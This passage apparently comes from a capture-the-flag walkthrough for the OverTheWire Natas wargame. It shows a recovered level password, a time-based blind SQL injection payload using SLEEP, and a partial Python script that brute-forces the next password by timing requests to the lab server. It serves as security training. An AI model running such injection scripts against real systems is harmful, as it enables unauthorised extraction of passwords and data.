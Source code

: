 This returns the password.

`8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw`

## 18

This level is similar to [16](#16), except this time no data is printed out if a
query returns data or not. We can solve this with a timed blind SQL injection.

```sql
SELECT * from USERS where username="natas18"
AND IF(password LIKE BINARY "a%", SLEEP(2), 0)
```

This query checks if user `natas18`'s password starts with the letter 'a'. If it
does, then sleep for two seconds, else do nothing. By timing the requests, we
can tell if we have a match.

```python
# -*- coding: utf-8 -*-

import logging
import string
import sys
import time

import requests
from bs4 import BeautifulSoup


logging.basicConfig(level=logging.DEBUG, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def time_get_page(query_dict):
    logger.debug("running: {0}".format(query_dict["username"]))
    query_dict["debug"] = "1"
    start = time.time()
    r = requests.get(
        "http://natas17.natas.labs.overthewire.org",
        auth=("natas17", "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"),
        params=query_dict)
    end = time.time()
    elapsed = end - start
    return elapsed


def get_password():
    # All previous passwords contined only numbers and lower/upper case
    # letters. Let's assume that the same is true for this password.
    possible_chars = "".join([
        string.lowercase,
        string.uppercase,
        "".join(map(str, range(10)))
    ])

    password = ""
    index = 0
    while True:
        if len(password) == 32:
            return password
        sql_query = \
            'natas18" AND IF(password LIKE BINARY "{0}", SLEEP(2), 0) #'
        password_times = {
```

[^1]: Hacking into systems without explicit permission is illegal.